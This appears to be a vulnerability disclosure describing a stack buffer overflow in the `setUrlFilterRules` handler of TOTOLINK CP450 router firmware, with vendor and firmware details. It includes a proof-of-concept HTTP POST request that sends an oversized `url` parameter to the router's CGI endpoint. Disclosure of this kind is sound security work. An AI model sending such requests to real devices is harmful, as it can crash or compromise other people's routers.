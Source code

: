 ## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `setUrlFilterRules`, attackers can post the parameter `url` without checking its' length, which can lead to buffer overflows in the following `strcpy` function.

![image-20240421163827190](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 347
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/firewall/url_filtering.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setUrlFilterRules",
    "addEffect": "0",
    "url": "b"*0x100
}
```

![image-20240421163827190](./img/2.png)
